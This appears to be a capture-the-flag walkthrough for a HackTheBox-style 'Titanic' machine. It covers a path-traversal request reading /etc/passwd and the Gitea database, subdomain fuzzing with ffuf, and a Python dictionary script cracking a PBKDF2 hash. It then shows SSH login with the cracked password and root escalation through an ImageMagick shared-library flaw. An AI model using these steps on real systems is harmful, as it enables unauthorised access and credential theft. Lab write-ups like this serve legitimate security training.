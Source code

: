 VPN 10.10.11.61

1.  INFO: Add IP to hosts file

RUN: sudo nano /etc/hosts

2.  RUN: **nmap -sV -Pn heal.htb**

Result: PORTS FOUND: 22, 80

![](images/media/image1.png){width="3.6978029308836398in"
height="1.3584842519685039in"}

3.  Add 10.10.11.55 titanic.htb to /etc/hosts file

4.  Activate Foxyproxy in Firefox

5.  Open <http://titanic.htb:80>

![](images/media/image2.png){width="5.450550087489064in"
height="1.6964096675415572in"}

- Start Burpsuite, activate INTERCEPT

- Book a ticket on Website (push SUBMIT button)

6.  **Push** **FORWARD**

![](images/media/image3.png){width="3.9890113735783026in"
height="2.130229658792651in"}

- Right click -\> **Send to Repeater**

Replace 1^st^ line with: **GET
/download?ticket=../../../../../../etc/passwd HTTP/1.1**

![](images/media/image4.png){width="3.565935039370079in"
height="1.3753248031496064in"}

1^st^ line Replaced (Result: see screenshot below)

- Push SEND

![](images/media/image5.png){width="5.9845505249343836in"
height="2.0439555993000873in"}

Result

![](images/media/image6.png){width="5.987437664041995in"
height="3.764003718285214in"}

USER.txt FLAG

![](images/media/image7.png){width="5.978022747156605in"
height="2.451998031496063in"}

**[SUBDOMAIN FUZZ]{.underline}**

1.  RUN: **ffuf -w
    /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u
    http://titanic.htb -H \"Host:FUZZ.titanic.htb\" -ac**

> ![](images/media/image8.png){width="5.428571741032371in"
> height="2.4679133858267717in"}
>
> Add **dev.titanic.htb** to **/etc/hosts** file

![](images/media/image9.png){width="4.7692311898512685in"
height="1.7352701224846894in"}

2.  Open [**http://dev.titanic.htb**](http://dev.titanic.htb)

> ![](images/media/image10.png){width="4.208791557305337in"
> height="3.76788823272091in"}

3.  Gitea DB is generally in **/data/gitea.db**

**[CRACK PASSWORD]{.underline}**

7.  Replace 1^st^ line with db

Search for USER: developer

![](images/media/image11.png){width="6.290972222222222in"
height="4.324305555555555in"}

8.  Password HASH (**blue highlighted**)

Salt (**red squares**)

![](images/media/image12.png){width="6.290972222222222in"
height="3.763888888888889in"}

9.  **INFO:** Use this script to crack (Target hash + salt) or use
    Hashcat

**Create script.py and put this inside**

[import hashlib]{.mark}

[import binascii]{.mark}

[]{.mark}

[def pbkdf2_hash(password, salt, iterations=50000, dklen=50):]{.mark}

[hash_value = hashlib.pbkdf2_hmac(]{.mark}

[\'sha256\',]{.mark}

[password.encode(\'utf-8\'),]{.mark}

[salt,]{.mark}

[iterations,]{.mark}

[dklen]{.mark}

[)]{.mark}

[return hash_value]{.mark}

[]{.mark}

[def find_matching_password(dictionary_file, target_hash, salt,
iterations=50000, dklen=50):]{.mark}

[target_hash_bytes = binascii.unhexlify(target_hash)]{.mark}

[]{.mark}

[with open(dictionary_file, \'r\', encoding=\'utf-8\') as file:]{.mark}

[count = 0]{.mark}

[for line in file:]{.mark}

[password = line.strip()]{.mark}

[hash_value = pbkdf2_hash(password, salt, iterations, dklen)]{.mark}

[count += 1]{.mark}

[print(f\"Checking_password {count}: {password}\")]{.mark}

[if hash_value == target_hash_bytes:]{.mark}

[print(f\"\\nFound password: {password}\")]{.mark}

[return password]{.mark}

[print(\"Password not found.\")]{.mark}

[return None]{.mark}

[]{.mark}

[salt = binascii.unhexlify(\'8bf3e3452b78544f8bee9400d6936d34\')]{.mark}

[target_hash =
\'e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56\']{.mark}

[dictionary_file = \'/home/kali/Desktop/rockyou.txt\']{.mark}

[find_matching_password(dictionary_file, target_hash, salt)]{.mark}

Should look like this

![](images/media/image13.png){width="5.450550087489064in"
height="3.480073272090989in"}

10. Put Target-hash and salt in the script (lines 30,31)

11. Crack it with script.py RUN: **python3 script.py**

**[PASSWORD: 25282528 found for USER: developer]{.mark}**

![](images/media/image14.png){width="0.8708333333333333in"
height="4.524708005249344in"}

Password found

![](images/media/image15.png){width="0.88125in"
height="0.15347222222222223in"}

**[ROOT]{.underline}**

1.  Login with User: **ssh <developer@titanic.htb>** Password:
    **25282528**

2.  You'll find a script under **/opt/scripts**

3.  Find vulnerability: Check version of **magick**

> RUN: **magick -version**
>
> **Source:**
> <https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8>

4.  According to identifiy_image.sh, **libxch.so.1** needs to be
    generated under **/opt/app/static/assets/images**

> **INFO:** This directory can be found, if you run: **find / -writable
> -type d 2\>/dev/null**
>
> ![](images/media/image16.png){width="3.6320002187226597in"
> height="0.8003051181102362in"}
>
> This causes **magick** (under root permissions) to **read root.txt**

- Put it into a **Python-script**, e.g. **script.py** or paste it
  directly into the terminal, as below.

> ![](images/media/image17.png){width="5.425522747156605in"
> height="3.83200021872266in"}

- List files in directory

![](images/media/image18.png){width="4.767075678040245in"
height="1.1993055555555556in"}

- Modify original directory content. E.G. copy a jpg file.

![](images/media/image19.png){width="4.779558180227472in"
height="0.503999343832021in"}

- Check if **libxcb.so.1** and **root flag** is there

- Display **root flag**

![](images/media/image20.png){width="4.779166666666667in"
height="0.8139238845144356in"}
